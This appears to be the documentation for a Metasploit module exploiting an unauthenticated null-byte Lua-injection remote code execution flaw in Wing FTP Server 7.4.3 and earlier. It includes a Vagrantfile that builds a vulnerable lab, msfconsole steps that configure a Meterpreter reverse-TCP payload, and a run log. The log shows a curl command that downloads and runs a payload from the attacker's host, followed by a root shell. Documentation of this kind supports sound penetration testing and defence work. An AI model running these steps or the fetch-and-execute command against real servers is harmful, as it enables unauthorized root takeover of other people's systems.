 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated Remote Code Execution** vulnerability
in **Wing FTP Server** (≤ 7.4.3 on Linux 64-bit), via its web administration interface.
The flaw lies in the login handler (`loginok.html`): by injecting a null byte (`%00`) into
the `username` parameter, attacker-supplied Lua code is written into the session file and
then executed by `loadfile()`, yielding arbitrary code execution as **root**.

To set up a vulnerable lab, use the following **Vagrantfile**, which provisions a Debian
"bookworm" VM, installs Wing FTP Server 7.4.3, and exposes its HTTP/S and FTP ports on the host:

```ruby
Vagrant.configure("2") do |config|
  config.vm.box = "debian/bookworm64"

  if Vagrant.has_plugin?("vagrant-vbguest")
    config.vbguest.auto_update = false
  end

  {
    21    => 2121,   # FTP
    990   => 2990,   # FTPS
    5466  => 5466,   # Admin port WingFTP
    50000 => 50000,  # Passive FTP range start
    50050 => 50050,  # Passive FTP range end
    80    => 8081    # HTTP WingFTP Web GUI
  }.each do |guest, host|
    config.vm.network "forwarded_port",
                      guest:        guest,
                      host:         host,
                      host_ip:      "0.0.0.0",
                      auto_correct: true
  end

  config.vm.provision "shell", inline: <<-SHELL
#!/usr/bin/env bash
set -e

ADMIN_USER="admin"
ADMIN_PASS="adminadmin"
ADMIN_PORT="5466"
WFTP_URL="https://web.archive.org/web/20250108084555/https://www.wftpserver.com/download/wftpserver-linux-64bit.tar.gz"

apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
  wget ca-certificates libssl3 libpam0g libacl1 libcap2 \
  net-tools procps expect curl \
  linux-headers-amd64 build-essential dkms

mkdir -p /opt/wingftp
cd /opt/wingftp
wget -qO wftp.tar.gz "$WFTP_URL"
tar xzf wftp.tar.gz --strip-components=1
rm wftp.tar.gz
chmod +x setup.sh

expect -c "
  spawn /opt/wingftp/setup.sh
  expect \\\"Enter your administrator name:\\\"     { send \\\"${ADMIN_USER}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter the listener port\\\"           { send \\\"${ADMIN_PORT}\\r\\\" }
  expect \\\"Do you want to start Wing FTP Server now?\\\" { send \\\"y\\r\\\" }
  expect eof
"

systemctl daemon-reload
systemctl enable wftpserver.service
systemctl start wftpserver.service
SHELL

  config.vm.provider "virtualbox" do |vb|
    vb.memory = 512
    vb.cpus   = 1
  end
end
```

* Save this as Vagrantfile in an empty directory.
* Run vagrant up.
* After provisioning, access the Wing FTP Server web UI at http://localhost:5466/ with credentials admin/adminadmin.
* On first login, a popup will appear; click OK.
* Create a new domain in the admin interface (this will enable the web client panel, port 8081).
* Then create a new user; for simplicity, use anonymous.


## Verification Steps

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wingftp_null_byte_rce
```
3. Set target parameters:
```
set RHOSTS 127.0.0.1
set RPORT 8081
set TARGETURI /
```
4. Configure payload:
```
set payload cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT <your port>
```
5. Run the exploit:
```
run
```
6. On success, a Meterpreter session will open, confirming remote code execution.


## Options

### USERNAME

A valid username (default: anonymous)

### PASSWORD

A valid password (default: '')


## Scenarios

### Successful Exploitation against Wing FTP Server

**Setup**:

* Wing FTP Server running in the Vagrant VM above.
* Attacker on host machine with Metasploit.

**Steps**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wingftp_null_byte_rce) > run http://lab:8081
[*] Command to run on remote host: curl -so ./FaWVivODJhB http://192.168.1.36:9999/LoPlnjEpeOexZNVppn6cAA;chmod +x ./FaWVivODJhB;./FaWVivODJhB&
[*] Fetch handler listening on 192.168.1.36:9999
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. UID cookie received: UID=2a5efb5a398e4ff19369a523c3cfffb03683e20446a6b40715757e2b05f10521
[+] Received UID: UID=146015b242094d8f4eff04941d94e67d3683e20446a6b40715757e2b05f10521
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.36:46260) at 2025-07-01 18:56:31 +0200

meterpreter > sysinfo 
Computer     : 10.0.2.15
OS           : Debian 12.9 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
